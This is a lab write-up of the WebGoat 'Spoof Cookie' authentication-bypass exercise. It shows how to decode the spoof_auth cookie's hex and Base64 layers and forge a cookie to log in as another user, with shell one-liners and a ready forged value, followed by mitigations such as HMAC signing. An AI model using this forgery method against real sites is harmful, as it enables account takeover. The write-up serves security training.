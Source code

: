 # WebGoat — Spoof Cookie (Authentication Bypass)

**Author:** Alvin Wainaina
**Lab:** Spoof Cookie — Authentication Bypass (WebGoat)
**Date:** 2025-10-28

---

## Objective

Attempt to bypass the authentication mechanism by spoofing an authentication cookie and log in as another user (Tom).
 The lab goal is to understand how the authentication cookie is generated and to craft a valid cookie for a target user.

## Environment

* WebGoat running on `http://localhost:8080`
* Tools used: Browser DevTools (Application → Cookies), Burp Suite (Proxy & Repeater), `xxd`, `base64`.
* Known credentials (lab-provided):

  * `webgoat` / `webgoat`
  * `admin` / `admin`

---

## Summary of Findings

* The `spoof_auth` cookie is a **two-layer encoding**:

  1. ASCII string → hex string (ASCII bytes represented as hex)
  2. hex string → Base64

* The ASCII string structure is: `sAAKrBgGSP` + `<username_reversed>`

  * Example:

    * `admin` → ASCII: `sAAKrBgGSPnimda`
    * `webgoat` → ASCII: `sAAKrBgGSPtaogbew`

* Because the cookie contains no HMAC/signature and the server decodes the cookie into the structure above and accepts the username portion,
 we can construct arbitrary valid cookies for other usernames by reversing the username and encoding using the same two-layer process.

* Successfully spoofed a cookie for **Tom** and authenticated as Tom by setting the `spoof_auth` cookie to the crafted Base64 value.

---

## Reproduction — step-by-step

### 1) Capture a real cookie (from a known user)

1. Log in normally with `webgoat`/`webgoat`.
2. Inspect cookies in browser DevTools → Application → Cookies for the WebGoat host.
3. Observe `spoof_auth` value. Example observed cookies:

   * For `admin` (cookie value):
     `spoof_auth=NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZTY5NmQ2NDYx`
   * For `webgoat` (cookie value):
     `spoof_auth=NzM0MTQxNGI3MjQyNjc0NzUzNTA3NDYxNmY2NzYyNjU3Nw==`

### 2) Decode the cookie to reveal the underlying format

* Base64 decode the cookie value, then interpret result as a hex string, and finally convert hex to ASCII.

Commands used (examples):

```bash
# Base64 decode -> hex string, then hex -> ASCII
echo -n 'NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=' | base64 -d | xxd -r -p
# Expected output: sAAKrBgGSPmoT
```

* For `admin` the intermediate decoded bytes (hex) were: `7341414b7242674753506e696d6461`
* For `webgoat` the intermediate hex was: `7341414b72426747535074616f67626577`

Converting hex to ASCII yields the fixed prefix and reversed username.

### 3) Build the spoofed cookie for Tom

* Take the constant prefix: `sAAKrBgGSP`
* Append reversed username: `Tom` -> reversed -> `moT`
* ASCII string to encode: `sAAKrBgGSPmoT`
* Convert ASCII -> hex:

  * `echo -n 'sAAKrBgGSPmoT' | xxd -p` → `7341414b7242674753506d6f54`
* Base64-encode the hex string (final cookie value):

  * `echo -n '7341414b7242674753506d6f54' | base64` → `NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=`

Final cookie to set:

```
spoof_auth=NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=
```

### 4) Set the cookie and verify (two quick methods)

**Browser DevTools**

* DevTools → Application → Cookies → Edit `spoof_auth` value, paste the crafted value, reload the protected page.

**Burp Repeater**

* In a captured request or new request to the protected resource, add header:

```
Cookie: JSESSIONID=<value>; spoof_auth=NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=
```

* Send request, verify the response indicates you are authenticated as Tom.


## Commands & One-liners (cheat sheet)

* ASCII -> hex:

```bash
echo -n 'sAAKrBgGSPmoT' | xxd -p
# -> 7341414b7242674753506d6f54
```

* Hex -> ASCII:

```bash
echo -n '7341414b7242674753506d6f54' | xxd -r -p
# -> sAAKrBgGSPmoT
```

* Base64 encode the hex string (to produce final cookie value):

```bash
echo -n '7341414b7242674753506d6f54' | base64
# -> NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=
```

* Full pipeline (cookie -> username):

```bash
echo -n 'NzM0MTQxNGI3MjQyNjc0NzUzNTA2ZDZmNTQ=' | base64 -d | xxd -r -p
# -> sAAKrBgGSPmoT  (reverse `moT` -> Tom)
```

---

## Impact

* Because the cookie is purely encoded (not signed) and the server accepts the decoded username,
 an attacker who can set client-side cookies (e.g., via XSS, local access, or a MitM) can impersonate arbitrary users by constructing and setting a valid `spoof_auth` cookie.

* On production systems this would be a critical vulnerability: it allows account takeover without knowledge of passwords.

---

## Root cause

* The server uses a deterministic, reversible encoding for the authentication token without any secret/signature (HMAC/RSA) or server-side binding, enabling forgery.

---

## Recommendations / Mitigations

1. **Sign or HMAC the cookie**: include an HMAC using a server-side secret, e.g. `HMAC-SHA256(secret, data)`, and verify it server-side before trusting the cookie.
2. **Avoid storing raw user identity in client-side cookies**: store an opaque session identifier and keep the authoritative session state on the server.
3. **Set Secure and HttpOnly flags** on cookies to reduce theft via client-side scripts and ensure HTTPS-only transport.
4. **Include expiration / nonce** and validate timestamps server-side to avoid replay, but also sign the timestamp.
5. **Use proper session management libraries** instead of custom token schemes.
6. **Add server-side checks**: validate that the user exists and optionally bind cookie to other server-side session attributes.

---

## Lessons learned

* Always treat client-side data as untrusted; encoding is not a substitute for authentication or integrity protection.
* When analyzing tokens, decode in layers (Base64 → hex → ASCII → JSON) until the structure is clear.
* Capture a real request first and replay it with controlled modifications to understand server-side checks.

---

## Appendix: full reproduction commands

## Conclusion

The lab demonstrates a clear example of insecure client-side authentication token design. By decoding the `spoof_auth` token we found a constant prefix and reversed username;
 because there is no integrity protection, it's trivially forgeable. Implementing server-side session management and signed tokens prevents this class of bypass.

---

